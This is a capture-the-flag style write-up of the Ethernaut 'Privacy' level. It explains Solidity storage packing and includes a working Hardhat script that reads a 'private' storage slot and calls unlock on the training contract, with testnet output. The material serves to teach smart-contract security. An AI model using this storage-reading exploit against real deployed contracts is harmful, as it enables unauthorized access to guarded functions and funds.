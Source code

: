```yaml
---
title: "Ethernaut #12 Privacy"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Privacy challenge writeup
---
```


## Privacy

### Challenge

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

* Understanding how storage works
* Understanding how parameter parsing works
* Understanding how casting works

Tips:

* Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### Background

This challegne is very similar to the `Valut` challenge. Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it. The only extra dificulty is to find the slot in use which will depend on the data types and how the final casting actually works. 

We should keep in mind that solidity will place things in the order they appear. If multiple things fit in a single slot then they will be merged together. This is because storage is very costly on the blockchain so its more efficient to spend some more type unpacking and repacking that using more storage.

### Attack

Somehow access the private `data[2]` array from the public blockchain and use it to call the `unlock` function.

* Determin at what slot offset the `data` array is placed
* Access the private `data[2]` value from the blockchain
* Cast the value to `bytes16` to obtain the `key`
* Submit the `key` using to `unlock` function to unlock the vault

#### privacy-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    privacyAddress = "0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357";
    contract = await ethers.getContractAt("Privacy", privacyAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private key value from storage
    paddedSlot = ethers.utils.hexZeroPad(5, 32);
    data_2 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    key = ethers.utils.hexDataSlice(data_2, 0, 16)
    console.log(key)

    // submit key
    tx = await contract.connect(account).unlock(key)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/privacy-solve.js --network rinkeby
Level address: 0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357
Vault locked : true
0x234731fcb29d9babc1557784fc558a0b
Vault locked : false
```

### Success Message

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
